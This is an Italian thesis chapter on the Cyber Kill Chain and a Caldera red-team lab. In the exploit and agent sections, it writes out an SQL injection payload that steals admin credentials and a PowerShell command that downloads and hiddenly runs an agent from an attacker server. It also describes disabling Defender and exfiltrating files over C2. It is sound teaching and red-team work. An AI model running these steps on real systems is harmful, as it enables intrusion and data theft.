\chapter{Kill Chain}
Iniziamo con lo spiegare cosa sia effettivamente una kill chain, o Cyber Kill Chain. Il termine è stato coniato nel 2011 e pubblicato all'interno di un white paper dall'azienda americana \textsc{Lockheed Martin}. La kill chain definisce una sorta di quadro analitico per scomporre e comprendere le varie fasi di un attacco informatico.\\
Tutta la definizione si basa sull'idea che un cyber attacco, per avere successo, necessita di passare attraverso sette fasi consecutive formando una vera e propria catena di azioni; quindi, onde evitare un danno economico o la violazione dei propri sistemi, bisogna rompere uno degli anelli di questa catena per fermare l'attacco in corso.\cite{cyber_kill_chain}

\section{Ciclo di vita}
Grazie al lavoro di \textsc{Lockheed Martin}, le aziende sono ora in grado di comprendere e mitigare lo svolgimento di attacchi analizzando le fasi che si susseguono durante un tentativo di violazione e programmare le difese più adatte per ogni step.\\
Qui di seguito, spieghiamo le varie fasi della kill chain nell'ordine in cui avvengono.\cite{kill_chain}\\[1.5em]
{\bfseries\Large{\textbf{Ricognizione}}}\\[1em]
Mettendosi per un momento dentro la mente di un utente malevolo, o black hat, la prima domanda che ci si pone è: \textit{"che tipo di sistema mi presto a violare e come riesco a superare le sue difese in modo da entrarvi?"}\\
In questa fase, l'attaccante cerca di raccogliere tutte le informazioni possibili sul target senza allarmare gli eventuali tool di sicurezza al suo interno; tutto ciò per localizzare delle vulnerabilità da poter sfruttare per penetrare nel sistema. Si può condurre questa ricerca attraverso due tipi di ricognizione:
\begin{itemize}
    \item \textbf{Passiva:} Chiamata così perché non si entra in contatto diretto con il sistema bersaglio. L'hacker mira ad ottenere la maggior quantità di informazioni, anche da file o database pubblici, senza il rischio di mettere in guardia la difesa del target. Siccome la nostra è una simulazione senza una vera organizzazione concreta, questo passaggio lo escludiamo e ci concentriamo sul prossimo.
    \item \textbf{Attiva:} Al contrario, entra in diretto contatto con il sistema target aumentando il rischio di essere individuato poiché si lasciano delle tracce, ma presenta il vantaggio di entrare in possesso di preziosi dettagli in più sulla vulnerabilità dell'host. Tra le tecniche principali di ricognizione attiva ci sono il mapping della rete, porte e vulnerabilità.\\Nella nostra esercitazione andremo ad effettuarle tutte in modo da mostrare ogni possibile scenario grave che può verificarsi.
\end{itemize}
Per difendersi da questa fase, è importante monitorare costantemente la visibilità online dell'azienda ed aumentare l'attenzione del dipendente sui contenuti che pubblica nei social network; verificare i log e utilizzare strumenti in grado di individuare possibili attività sospette di raccolta informazioni.\\

\noindent
{\bfseries\Large{\textbf{Armamento}}}\\[1em]
Dopo aver raccolto sufficienti informazioni sul bersaglio, queste si utilizzano per creare malware e trovare delle tecniche in grado di sfruttare le debolezze individuate. Bloccare l'attacco in questa specifica fase è quasi impossibile, poiché molto del lavoro viene effettuato in sistemi esterni alla rete; l'unica tattica di difesa è il continuo monitoraggio e aggiornamento della propria infrastruttura in modo da colmare qualsiasi vulnerabilità che può costituire un vettore di attacco.\\

\noindent
{\bfseries\Large{\textbf{Consegna}}}\\[1em]
Una volta preparato, il criminale informatico deve assicurarsi che il malware arrivi alla vittima e che questo avvenga in un punto in cui è in grado di provocare il maggior numero di danni possibili. Nel nostro caso, non andremo a sviluppare un software malevolo bensì svilupperemo una query adatta ad ottenere dati sensibili; possiamo considerarla come la "consegna".\\ 
Per contrastare questa fase, bisogna prevenire e bloccare l'accesso a contenuti malevoli. Questo è realizzabile mediante un aumento della consapevolezza delle minacce da parte dei dipendenti e dei collaboratori e l'implementazione di dispositivi di sicurezza quali firewall, sandbox o programmi anti-virus. Infine, monitorando il traffico di rete, in entrata e uscita, si individuano i tentativi di penetrazione nella rete.\\ 

\noindent
{\bfseries\Large{\textbf{Sfruttamento}}}\\[1em]
Questa fase rappresenta la semplice attivazione del payload inviato e consegnato al target; è necessario per prendere il controllo del sistema e continuare con le fasi successive. Per difendersi è fondamentale bloccare l'avvio di software non riconosciuti o considerati dannosi per via della loro impronta digitale. Grazie alle componenti spiegate in precedenza (v. \ref{blue}), analizzando i log delle attività nel sistema, è possibile bloccare tentativi di avvio e iniziare azioni precauzionali contro i programmi identificati come malevoli per l'infrastruttura.\\

\noindent
{\bfseries\Large{\textbf{Installazione}}}\\[1em]
Dopo lo sfruttamento, la fase di installazione consolida l'avvenuto accesso al sistema vittima e, inoltre, permette un accesso permanente nel tempo e discreto per l'attaccante attraverso l'installazione di una \textit{backdoor} o la creazione di un utente legittimo. Avendo un agente all'interno dell'host, il nostro accesso permanente ruota intorno a Caldera grazie al quale possiamo controllare e comunicare col software installato. Un ipotetico Blue Team può individuare questa \textit{backdoor} mediante dei controlli nelle modifiche della configurazione dell'host in questione rispetto a quella standard, verifica dei certificati di tutti i file eseguibili firmati e con l'utilizzo dell'autenticazione a due fattori in modo da rafforzare la sicurezza.\\

\noindent
{\bfseries\Large{\textbf{Comando \& Controllo (C2)}}}\\[1em]
A questo punto si è creato un canale di comunicazione tra il tool installato e l'attaccante; grazie a questo è possibile avviare una serie di operazioni e comandi da far eseguire all'host ormai compromesso. Più avanti sarà mostrato come Caldera riesca ad automatizzare questa fase grazie ai TTPs già presenti nel framework. Vi sono diverse tecniche di difesa per interferire o bloccare il canale di comunicazione: un server proxy, forza tutto il traffico a passare attraverso esso creando un choke-point e consente di ispezionare e, eventualmente, filtrare le connessioni considerate minacciose o un DNS sinkhole che risponde alle query DNS per domini malevoli, restituendo un indirizzo controllato, possibilmente di un honeypot o una sandbox in modo da analizzare la richiesta dell'attaccante. Si consiglia l'utilizzo di NIDS per rilevare attività insolite mediante il riconoscimento di signature o comportamenti anomali.\\

\noindent
{\bfseries\Large{\textbf{Azioni finali}}}\\[1em]
Siamo nella fase finale dell'attacco, l'utente malevolo effettua delle azioni che mirano a raggiungere gli obiettivi dell'attacco: divulgazione dei dati privati dell'azienda, crittografia dei dischi con annesso ricatto per la decifrazione (ransomware) e simili. Per salvaguardare i propri asset, l'organizzazione deve conservare diversi backup in supporti offline e mantenerli aggiornati il più possibile.\\
Rimane importante il costante monitoraggio delle azioni sul database, la creazione di un piano di risposta a possibili incidenti e la protezione dei dati presenti mediante la crittografia.

\section{Cyber Kill Chain Matrix}
Dopo aver compreso e studiato le singole fasi di una kill chain ed aver implementato per ognuna di esse le contromisure più sicure, l'azienda in questione ha la possibilità di creare una matrice di controllo della Cyber Kill Chain. L'obiettivo di questa è enumerare i meccanismi di protezione che l'organizzazione ha implementato rispetto ad ogni singola fase, al fine di determinare come i team di sicurezza possano contribuire ad interrompere ed eliminare un attacco informatico.
\vspace{1em}
\begin{figure}[H]
    \centering
    \includegraphics[width=0.8\textwidth]{images/Kill_chain_matrix.png}
    \caption{Esempio di Cyber Kill Chain Matrix}
\end{figure}
\vspace{1em}
Nella matrice sono presenti 6 voci, in corrispondenza delle righe, correlate alle fasi della kill chain descritte in precedenza; mentre nelle 6 colonne sono enunciate le cosiddette "linee di azione".\\ 
Esse categorizzano le metodologie di contrasto da adottare in base alla singola fase:
\begin{enumerate}
    \item \textit{\textbf{Detect:}} Adottare strumenti in grado di identificare l'attaccante.
    \item \textit{\textbf{Deny:}} Negare la ripetizione di eventi dannosi.
    \item \textit{\textbf{Disrupt:}} Interrompere il traffico instaurato con l'aggressore.
    \item \textit{\textbf{Degrade:}} Rallentare le azioni dell'attaccante, limitandone privilegi ed effetti.
    \item \textit{\textbf{Deceive:}} Attirare l'attenzione dell'attaccante verso sistemi protetti o di analisi, in modo da distogliere il focus su architetture sensibili.
    \item \textit{\textbf{Contain:}} Limitare il danno provocato da un'intrusione.
\end{enumerate}
La matrice mappa i sistemi di difesa presenti nell'organizzazione ed offre una sintesi di come l'azienda è in grado di contrattaccare; in particolare, mette in evidenza le aree non controllate in modo che gli amministratori di sicurezza si mobilitino per colmare le lacune identificate.

\section{Operazioni di Red Teaming}
Prima di immergersi nelle fasi della Cyber Kill Chain sviluppata, è bene elencare una serie di premesse al fine di caratterizzare al meglio il contesto in cui ci troviamo in questa esercitazione, in special modo quali sono i "limiti" impostati.\\
Come spiegato in precedenza, quando un'azienda investe nel progettare un'esercitazione di Red Teaming sulla proprio infrastruttura di rete, si accorda con la squadra (squadre se si parla di Purple Teaming) per decidere quali saranno gli ambiti in cui andranno maggiormente a lavorare; possiamo considerarla una specie di policy o regole da seguire durante l'intera operazione. L'obiettivo di questo progetto mira alla presa di coscienza dei rischi che si possono correre quando un host viene compromesso, specialmente in un'organizzazione molto sviluppata.\\
Non si è entrati molto nello specifico nelle impostazioni come le regole del firewall o il controllo delle autorizzazioni/autenticazioni; poiché sarà poi compito di chi farà uso della macchina, riorganizzare e reimpostare le varie feature a proprio piacimento per eventuali assessment delle proprie difese.\\
Nello scenario che si andrà a presentare, entrambi gli attori si trovano all'interno della stessa rete privata \texttt{192.168.56.0/24} e possiamo rappresentare l'attaccante come un cliente dei servizi resi disponibili, se non addirittura uno degli impiegati che ha deciso di andarsene o che nutre rancore nei confronti dell'azienda per essere sottopagato da troppo tempo. Inoltre, considerando uno dei due scenari possibili, assumiamo che l'utente malevolo in questione sia consapevole della presenza di un server MSSQL all'interno della rete di cui usufruirà per completare il suo piano di attacco.
\vspace{1em}
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.5\textwidth]{images/EnterpriseNet.png}
    \caption{Diagramma rete aziendale}
\end{figure}
\vspace{1em}
Molteplici sono gli use case disponibili in Caldera da utilizzare all'interno di una macchina Windows. È possibile saltare la fase di inserimento dell'agente nel sistema, riducendola ad un semplice spegnimento di Windows Defender in modo da poter avviare lo script in Powershell; ma, per rendere il laboratorio più interessante ed esplorare un tipo di vettore d'attacco comune, è stato deciso di integrare lo sfruttamento di una vulnerabilità in modo da caricare l'agente. 

    \subsection{Individuazione exploit}
    Cominciamo l'infiltrazione tramite il terminale della macchina Ubuntu con Caldera. Nella nostra rappresentazione d'attaccante, in primis ci chiediamo quanti siano i dispositivi presenti all'interno della nostra stessa subnet. Per rispondere a questa domanda ci avvaliamo del tool descritto nei capitoli precedenti (v. \ref{red}), ossia \texttt{nmap}. Grazie al comando seguente individuiamo un elenco di tutti gli host presenti (senza lo scan delle porte):
    \vspace{0.5em}
    \begin{figure}[H]
        \centering
        
\includegraphics[width=\textwidth]{images/Host_discovery.png}
        \caption{Comando per la scoperta di host attivi}
    \end{figure}
    \begin{itemize}
        \item \texttt{192.168.56.0/24}: La sottorete target in notazione CIDR. Rappresenta tutti gli indirizzi da \texttt{192.168.56.1} a \texttt{192.168.56.254}.
        \item \texttt{-sn}: Invia un segnale ICMP ed attende la risposta per verificare se l'indirizzo scandito è online oppure no.
        \item \texttt{-PR}: Forza ad inviare un segnale ARP. 
    \end{itemize}
    L'ultimo flag è stato usato perché, nelle nostre premesse, abbiamo posto la macchina attaccante nella stessa subnet del bersaglio. Altrimenti, non sarebbe stato possibile ricevere risposta (v. \ref{red}). L'output del comando ci informa che, oltre a noi, è presenta un unico host bersaglio su cui possiamo lavorare.\\
    Dando per scontato che si tratti del sistema in cui è presente il server Microsoft, andiamo ad analizzare i servizi e le porte disponibili sempre mediante \texttt{nmap}:
    \vspace{0.5em}
    \begin{figure}[H]
        \centering
        
\includegraphics[width=\textwidth]{images/Service_discovery.png}
        \caption{Comando per la scoperta di porte e servizi di un host}
    \end{figure}
    \begin{itemize}
        \item \texttt{-Pn}: Considera l'host specificato come attivo. Quindi, avvia direttamente lo scanning delle porte.
        \item \texttt{-sS}: Invia un segnale TCP SYN senza completare l'handshake della connessione; in pratica, interpreta solo la risposta.
        \item \texttt{-sV}: Indaga il nome e la versione dei servizi aperti grazie a diverse richieste a livello di applicazione.
        \item \texttt{-O}: Tenta di identificare la versione del sistema operativo installato studiando il fingerprinting dello stack TCP/IP 
        \item \texttt{-T4}: Velocizza l'analisi incrementando il parallelismo e diminuendo vari timeout di richieste.
    \end{itemize}
    Sono stati identificati tutti i servizi configurati precedentemente, insieme alla versione giusta di Windows (v. \ref{win}). Questa è l'ennesima dimostrazione di quanto questo tool sia tanto versatile quanto pericoloso, se usato con scopi illegali.\\
    A questo punto, siamo venuti a conoscenza delle difese, porte e servizi presenti nel server analizzato. Per avere piena mobilità nelle azioni all'interno di esso, necessitiamo dei privilegi da amministratore e questo ci porta a una sola conclusione: bisogna ottenere le credenziali del System Amministrator.\\
    Prepariamo la query maligna in modo da farci restituire tutti i dati dei dipendenti che si sono registrati nella piattaforma immaginaria. Invieremo al server i seguenti payloads:\vspace{0.5em}
    \begin{Verbatim}
        Username = sa' UNION SELECT * FROM Users--
        Password = # Qualsiasi stringa va bene
    \end{Verbatim}
    \vspace{0.5em}
    Sfruttando la sintassi di SQL, il controllo delle password viene fatto diventare un semplice commento grazie ai caratteri \texttt{--}. Il risultato contiene id, username e password di tutti gli utenti, compreso quello dell'amministratore del sistema.\vspace{0.5em}
    \begin{figure}[H]
        \centering
        \includegraphics[width=\textwidth, trim=2 0 0 2, clip]{images/Get_data.png}
        \caption{Dati restituiti dopo SQLi}
    \end{figure}

    \subsection{Inserimento agente\label{firewall}}
    Siamo riusciti ad entrare in possesso delle credenziali dell'admin. Ora è possibile accedere da remoto come amministratore ed abilitare la funzione che ci permetterà di inserire l'agente nella macchina Windows, ossia \texttt{xp\_cmdshell}.\\
    Iniziamo accedendo, da remoto, al server di database ed inserendo le credenziali del System Administrator in nostro possesso.
    \begin{figure}[H]
        \centering
        \includegraphics[width=\textwidth, trim=3 0 0 0, clip]{images/Connect_sa.png}
        \caption{Connessione riuscita con credenziali admin}
    \end{figure}
    Eseguendo una serie di comandi, è possibile abilitare \texttt{xp\_cmdshell} da terminale senza intoppi.\vspace{0.5em}
    \begin{figure}[H]
        \centering
        \includegraphics[width=\textwidth, trim= 3 0 0 0, clip]{images/XP_on.png}
        \caption{Abilitazione funzione xp\_cmdshell}
    \end{figure}
    Prima di andare ad eseguire l'installazione dell'agente, è bene ricordare che Windows Defender lo considera, giustamente, una minaccia per il sistema. Grazie ai privilegi ottenuti dall'amministratore, andiamo a disattivare Defender tramite il seguente comando.\vspace{0.5em}
    \begin{figure}[H]
        \centering
        \includegraphics[width=\textwidth, trim=2 0 0 0, clip]{images/Firewall_off.png}
        \caption{Disattivazione firewall tramite xp\_cmdshell}
    \end{figure}
    Ora non resta altro che inviare il comando per collegare l'agente al server Caldera ed abilitare le operazioni preparate.
    \begin{Verbatim}[breaklines=true, breakanywhere=true]
        $server="http://192.168.56.102:8888";
        $url="$server/file/download";
        $wc=New-Object System.Net.WebClient;
        $wc.Headers.add("platform","windows");
        $wc.Headers.add("file","sandcat.go");
        $data=$wc.DownloadData($url);
        get-process | ? {$_.modules.filename -like "C:\Users\Public\caldera.exe"} | stop-process -f;rm -force "C:\Users\Public\caldera.exe" -ea ignore;[io.file]::WriteAllBytes("C:\Users\Public\caldera.exe",$data) | Out-Null;Start-Process -FilePath C:\Users\Public\caldera.exe -ArgumentList "-server $server -group red" -WindowStyle hidden;
    \end{Verbatim}
    Basterà fare un controllo nella sezione \textit{Agents} del server Caldera per confermare l'inserimento dell'agente. 

    \subsection{Avversario "Defense Evasion" (use case 1)}
    Nelle prossime righe si descrive un'operazione effettuata da uno dei numerosi \textit{adversaries} default offerti da Caldera. È stato scelto il profilo di "Defense Evasion"; il profilo in questione raccoglie una serie di tecniche finalizzate a minimizzare la possibilità di essere rilevato e rappresenta un ottimo challenge per il team di sicurezza dell'azienda attaccata.\\
    Come descritto nel capitolo sul framework (v. \ref{cald}), tutte le singole \textit{abilities} sono completamente automatizzate. La schermata risultante appare simile a questa.
    \begin{figure}[H]
        \centering
        
\includegraphics[width=\textwidth, trim=2 0 0 2, clip]{images/DefOp.png}
        \caption{Parte delle abilità presenti in "Defense Evasion"}
    \end{figure}
    \begin{itemize}
        \item \textbf{Time Ran:} Timestamp dell'inizio di esecuzione dell'\textit{ability}.
        \item \textbf{Status:} Stato dell'\textit{ability} in svolgimento.
        \item \textbf{Ability Name:} Nome dell'\textit{ability} in gioco.
        \item \textbf{Tactic:} Tattica ATT\&CK da cui l'\textit{ability} è presa.
        \item \textbf{Agent:} ID dell'\textit{agent} esecutore.
        \item \textbf{Host:} Macchina compromessa in cui l'\textit{agent} è presente.
        \item \textbf{PID:} ID del processo corrente nella macchina compromessa.
        \item \textbf{Link Command:} Comando eseguito.
        \item \textbf{Link Output:} Output generato a seguito dell'\textit{ability} (può essere vuoto).
    \end{itemize}
    In questo caso, si sono presentate due \textit{abilities} che sono fallite per via di timeout o incorretta implementazione di questa. È bene controllare e configurare i comandi eseguiti in base all'architettura su cui si vuole lavorare. Utilizzando un profilo predefinito bisogna aspettarsi delle incompatibilità come in questo test.\\
    Tramite Caldera, è disponibile un'opzione importante che permette di "pulire" le tracce rimaste dall'esecuzione delle \textit{abilities}, ignorando l'esito che queste hanno dato. A fine operazione, scarichiamo il resoconto preparato da Caldera disponibile in 3 diversi formati:
    \begin{enumerate}
        \item \textbf{Full Report:} Rappresenta il resoconto completo dell'operazione eseguita. In essa sono inclusi: il profilo seguito, gli \textit{agents} in gioco, tutti i \textit{link} eseguiti, i \textit{facts} scoperti, dettagli sulle \textit{abilities} e una semplice rappresentazione degli output generati. Il formato \texttt{.json} permette una revisione forense; inoltre, il report può essere inviato ad un altro sistema tramite una chiamata API.\\[1em]
        \begin{figure}[H]
            \vspace{-1.5em}
            \centering
            
\includegraphics[width=\textwidth]{images/Full_report.png}
            \caption{Lista resoconto completo "Defensive Evasion"}
        \end{figure}
        \item \textbf{Event Logs:} Una versione più leggera del log che si concentra nei tempi registrati durante gli eventi. Salva gli istanti in cui i \textit{links} sono eseguiti, il loro stato e le informazioni sui tempi.\\[1em]
        \begin{figure}[H]
            \vspace{-1.5em}
            \centering
            
\includegraphics[width=\textwidth]{images/Event_Logs.png}
            \caption{Lista resoconto links di "Defensive Evasion"}
        \end{figure}
        \item \textbf{CSV:} Una visione tabellare dei \textit{links} eseguiti. Racchiude nelle colonne le proprietà più significative dell'\textit{ability} svolta (timestamp, ID, result, ecc.).\\ È un'ottima scelta per mostrare il risultato dell'operazione ad utenti meno esperti, con la possibilità di una rapida analisi attraverso strumenti come Excel.
    \end{enumerate}

    \subsection{Creazione avversario (use case 2)}
    Come secondo use case, ho raccolto una collezione semplice di \textit{abilities} che concentrano le loro azioni nelle tecniche di \textsc{collection} ed \textsc{exfiltration} di dati e processi. Durante la creazione del \textit{adversary}, l'ordine secondo cui vengono eseguiti i \textit{links} è importante, per via dei \textit{facts} che devono essere soddisfatti, in modo da generare quelli seguenti.\\
    Per riassumere concettualmente l'operazione da svolgere: un avversario, con privilegi elevati all'interno del server, tenta di raccogliere tutti i file presenti ed enumerare i processi avviati e in esecuzione. Successivamente, dopo aver creato una staging directory in cui collezionare i file individuati, si usano un paio di tecniche per estrarre i dati raccolti all'interno della cartella \texttt{caldera/data/results/}; mentre i processi sono visualizzabili negli output scritti nel resoconto. L'operazione è possibile grazie ai privilegi ottenuti; senza di questi sarebbe stato necessario ottenerli attraverso altre \textit{abilities} di \textsc{privilege escalation}. Di seguito, si elencano la serie di eventi susseguitasi durante l'operazione:
    \begin{enumerate}
        \item \textsc{"Create staging directory"}: Crea la cartella che contiene i futuri file individuati dalle altre \textit{abilities}. Viene eseguita per prima siccome la sua esistenza rappresenta un \textins{fact} per molti altri eventi. In seguito, la directory creata verrà eliminata grazie all'opzione "clean up" dell'\textit{ability}, in modo da non lasciare tracce.
        \item \textsc{"Find Files"}: Cerca nel filesystem dei file che corrispondano, nel nome o percorso, ad un parametro scritto nel comando (modificabile). Di solito, salva solo dei candidati.
        \item \textsc{Advanced File Search and Stager}: Rappresenta una versione combinata dei primi due eventi grazie a un payload rilasciato nell'host contenente gli argomenti per lo svolgimento delle azioni. È stato selezionato in modo da coprire eventuali falli nell'esecuzione delle prime \textit{abilities}.
        \item \textsc{"Stage sensitive files"}: Prende i file trovati corrispondenti e li copia/sposta all'interno della directory creata \textit{staged}. Nel nostro profilo, viene eseguita due volte di seguito in modo da considerare i file presi sia dal secondo scanning sia dal terzo.
        \item \textsc{"WMIC Process Enumeration"}: Cattura ID, percorso e parent ID di tutti i processi all'interno della macchina. L'output è visualizzabile nella schermata \textit{Operations} attiva.
        \item \textsc{"SysInternals PSTool Process Discovery"}: Enumerazione dei processi attivi attraverso strumenti SysInternals pstool. Analogamente a prima, il motivo dietro la doppia esecuzione di \textit{abilities} simili risiede nel voler confrontare i due output in modo da scoprire eventuali discordanze.
        \item \textsc{"Compress staged directory"}: Crea un archivio (zip o simile) con i contenuti della staged directory. In questo modo, l'esfiltrazione dei file si racchiude all'interno di un unico artefatto.
        \item \textsc{"Exfil staged directory"}: Il passo finale invia l'archivio creato indietro verso il server Caldera attraverso il canale C2 creato con l'agente.
    \end{enumerate}
    Nel processo di svolgimento, nessuna \textit{ability} ha riscontrato difficoltà nell'eseguire il proprio compito e raccogliere il proprio obiettivo. Questo grazie al fatto di star avviando gli eventi con diritti di amministratore e senza la presenza del firewall, spento in precedenza (v. \ref{firewall})
    Sulla base delle informazionni raccolte, un ipotetico utente malevolo avrebbe il potere di rovinare l'azienda: andando a vendere i dati sensibili, arrestando dei processi importanti o lo stesso server e, persino, allargare la sua rete di zombie bot attraverso tecniche di \textsc{lateral movement}. Come la maggior parte delle configurazioni, l'ampliamento ed il tecnicismo di "Internal Thief (Windows)" può essere cambiato da altri possibili utenti o dal Red Team.
    